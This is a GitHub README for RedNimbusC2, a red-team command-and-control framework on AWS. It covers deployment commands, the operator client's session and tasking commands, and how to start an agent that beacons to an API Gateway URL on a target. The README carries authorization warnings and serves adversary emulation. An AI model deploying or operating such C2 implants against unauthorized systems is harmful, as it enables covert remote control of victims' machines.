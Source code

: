 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

![alt text](images/nimbusC2_architecture.png)

## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not expected to be stable or even usable at this time.

`[!] Do not use this tool until this notice is removed.`

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python 3](https://www.python.org)
3. [AWS SDK for Python (Boto3)](https://aws.amazon.com/sdk-for-python/)
4. [Go](https://go.dev)
5. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
6. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
7. [Make](https://www.gnu.org/software/make/)
8. [Git](https://git-scm.com)

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Deploy Red Nimbus C2 infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 resources to AWS
make deploy

# optionally deploy to a specific AWS account like so:
# make deploy AWS_PROFILE=<your_profile>
```

See [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.

:exclamation: To remove the Red Nimbus C2 infrastructure on AWS:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
make destroy
```

3. **Install the Red Nimbus C2 Operator Client**

```bash
# from RedNimbusC2 directory
pip3 install -r operator_client/requirements.txt

python3 operator_client/nimbusc2.py --help
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Deploy agent to target
2. Issue commands using the Nimbus C2 operator client
3. Cleanup when finished

### 1. Deploy Agent to Target System(s)

We provide an [example agent written in Python](./agent/agent.py).

You may use this script as a reference to implement your own agent for operational purposes. [Go is a good choice.](https://github.com/bluesentinelsec/OffensiveGoLang)

Otherwise, you are responsible for deploying the agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

Once the agent is on target, you can execute it as follows:

```bash
# view help
python3 agent.py --help

# start C2 loop
python3 agent.py --url <AWS API Gateway URL>
```

### 2. Issue commands using the Nimbus C2 operator client

The Red Nimbus C2 operator client is provided [here](./operator_client/nimbusc2.py).

**Interact with Agent Sessions**

```bash
# view summarized info about all sessions
nimbusc2.py --list-sessions

# view detailed agent session information
nimbusc2.py --get-session --session-id <agent_session_id>

# terminate agent session
nimbusc2.py --remove-session --session-id <agent_session_id>
```

**Issue Commands to Agents**

```bash
# issue an agent task; will be executed by all agents by default
nimbusc2.py --set-task --cmd <supported_agent_command>

# view a pending agent task
nimbusc2.py --get-task --task-id <task_id>

# delete a pending agent task
nimbusc2.py --remove-task --task-id <task_id>
```

### View Task Output

TBD

### Cleanup

You can task all implants to terminate and delete by issuing this command:

```
TBD
```
